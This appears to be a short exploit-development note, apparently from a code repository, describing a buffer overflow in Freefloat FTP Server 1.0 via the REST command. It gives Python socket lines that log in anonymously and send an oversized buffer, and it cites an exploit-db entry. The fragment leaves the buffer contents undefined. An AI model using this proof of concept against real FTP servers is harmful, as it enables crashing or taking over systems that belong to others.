# Buffer-Overflow in Freefloat FTP Server 1.0 -'REST'

POC:
s.send("USER anonymous\r\n")
s.recv(1024)
s.send("PASS anonymous\r\n")
s.recv(1024)
s.send("REST " + buffer + "\r\n")
s.send("QUIT\r\n")

Vulnerable dll : ntdll.dll
ref : https://www.exploit-db.com/exploits/17546

